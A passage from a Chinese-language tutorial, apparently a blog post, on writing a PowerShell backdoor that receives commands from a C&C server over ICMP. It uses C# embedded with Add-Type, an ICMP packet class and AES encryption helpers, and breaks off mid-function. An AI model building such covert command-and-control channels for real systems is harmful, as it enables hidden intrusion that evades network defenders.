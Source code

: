 `Add-type -TypeDefinition $a`

这里的TypeDefinition是默认，即CSharp，它支持的语言还有vb，js等等等等...

先是流量包的构造，icmp的结构之前python半连接后门已经说的比较清楚了，就不介绍了，这里构造只需要创建byte数组，向里面写入数据就行。

最好是创建一个类来储存各种数据，过后再依次写入。

```
public class IcmpPacket
    {
        public Byte Type;    // type of message 
        public Byte SubCode;    // type of sub code 
        public UInt16 CheckSum;   // ones complement checksum of struct 
        public UInt16 Identifier;      // identifier 
        public UInt16 SequenceNumber;     // sequence number 
        public Byte[] Data;

    }
```

但是这里的Type，如果换成8以外的话，发送数据会报错(个人认为是因为其他type的数据包和type=8的数据包不同造成的，这点之前python后门的文章中有提到，但是python的scapy库能够自动转换，而我们的程序集不会...)。我这里不想再重新构造了，就选择正常的Type=8，用seq来传输aes密钥，

icmp是不需要端口的，我们也就不用socket去连接端口再发送，先初始化socket，将目标ip转换成endpoint类型，用SendTo去发送(这些用法最好去微软官方文档查，又方便又详细)

<a href="https://docs.microsoft.com/zh-cn/dotnet/api/system.net.sockets.socket.sendto?view=netframework-4.7.2#System_Net_Sockets_Socket_SendTo_System_Byte___System_Int32_System_Int32_System_Net_Sockets_SocketFlags_System_Net_EndPoint_"> 文档传送门 </a>

接收也用ReceiveFrom接收指定endpoint的数据。

由于type=8会有对方的返回数据，我们需要先接收了对方的返回数据，再继续接收c&c服务器发送的指令。


### 数据加密

powershell的aes加密也有对应的程序集可以实现：`System.Security.Cryptography.AesManaged`

我用了网上常见的aes加密解密函数

```
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key $IV
```